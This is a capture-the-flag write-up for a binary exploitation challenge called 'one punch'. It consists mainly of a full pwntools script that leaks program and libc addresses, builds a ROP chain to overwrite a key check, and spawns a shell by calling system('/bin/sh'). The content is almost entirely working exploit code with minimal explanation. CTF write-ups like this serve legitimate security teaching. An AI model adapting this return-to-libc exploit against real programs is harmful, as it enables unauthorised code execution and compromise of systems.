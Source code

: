 # one punch

Basic ROP challenge but there's a key check preventing restarting the program correctly. We can either overwrite the key or use a one gadget, personally I don't like one gadget because it can be unreliable and feels lame so I went with overwriting the key.

```python
from pwn import *
context.arch = "amd64"

io = process("./one_punch")
# io = remote("netcat.deadsec.quest", 31794)
elf = ELF("./one_punch")
libc = ELF("./libc.so.6")
if args.GDB:
	gdb.attach(io)

io.recvuntil(b"cape! ")
leak = int(io.recvline()[:-1], 16)
log.info(f"program address at: {hex(leak)}")
base = leak - 0x1291
log.info(f"program base is at: {hex(base)}")
elf.address = base

key = base + 0x4050
rop = ROP(elf)
payload = b"A"*120
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(elf.got.gets)
payload += p64(elf.plt.puts)
payload += p64(rop.find_gadget(['ret'])[0])

payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(key)
payload += p64(elf.sym['gets'])
payload += p64(elf.symbols.main)
io.sendline(payload)

io.recvline()
leak = unpack(io.recvline()[:-1], "all")
log.info(f'Gets leak => {hex(leak)}')
libc.address = leak - libc.symbols.gets
log.info(f'Libc base => {hex(libc.address)}')

io.sendline(p64(0))

payload = b"A"*120
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(next(libc.search(b'/bin/sh')))
payload += p64(rop.find_gadget(['ret'])[0])
payload += p64(libc.symbols.system)
io.sendlineafter(b"hero?", payload)

io.interactive()
```